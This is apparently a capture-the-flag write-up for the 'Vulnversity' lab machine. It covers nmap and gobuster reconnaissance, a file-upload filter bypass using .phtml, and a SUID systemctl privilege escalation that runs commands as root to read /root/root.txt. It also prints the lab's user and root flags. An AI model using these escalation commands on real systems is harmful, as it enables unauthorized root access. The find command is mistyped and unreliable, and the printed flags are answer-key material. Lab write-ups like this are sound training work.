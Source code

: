 #Vulnversity

`export IP=10.10.212.126`

##Reconnaissance 
nmap flag			Description
`-sV`				Attempts to determine the version of the services running
`-p <x> or -p-`		Port scan for port <x> or scan all ports
`-Pn`				Disable host discovery and just scan for open ports
`-A`				Enables OS and version detection, executes in-build scripts for further enumeration 
`-sC`				Scan with the default nmap scripts
`-v`				Verbose mode
`-sU`				UDP port scan
`-sS`				TCP SYN port scan

###nmap scan
`nmap -sC -sV -oN nmap/initial $IP -v`

2) 	
Scan the box, how many ports are open?
`6`

3) 	
What version of the squid proxy is running on the machine?
`3.5.12`

4) 	
How many ports will nmap scan if the flag -p-400 was used?
`400`

5) 	
Using the nmap flag -n what will it not resolve?
`DNS`

6) 	
What is the most likely operating system this machine is running?
`Ubuntu`

7) 	
What port is the web server running on?
`3333`

8)
`nmap -p- -sC -sV -oN nmap/fullscan $IP -v`

##GoBuster

find many wordlists under /usr/share/wordlists.
Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

GoBuster flag			Description
`-e`					Print the full URLs in your console
`-u`					The target URL
`-w`					Path to your wordlist
`-U and -P`				Username and Password for Basic Auth
`-p <x>`				Proxy to use for requests
`-c <http cookies>`		Specify a cookie for simulating your auth

`gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan`
 	

What is the directory that has an upload form page?
`/internal/`

##Compromise the webserver 
1)
Try upload a few file types to the server, what common extension seems to be blocked?
`php`

3)
what extension is allowed?
![Burp Reuslts](images/Burp_output.png)
Format: ![Alt Text](images/Burp_output.png)
`.phtml`

5)
What is the name of the user who manages the webserver? `ps-aux`
`bill`

6)
What is the user flag?
`8bd7992fbe8a6ad22a63361004cfcedb`

##Privilege Escalation
`find / -pem 400 2>dev/null | grep -v "permission denied"`

1)
What file stands out?
`/bin/systemctl`

searching GTFO bins gtfobins.github.io for systemctl errors you get the following

2) 	
Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
Become root and get the last flag (/root/root.txt)

`
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
`

`
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
`

`a58ff8579f0a9270368d33a9966c7fd5`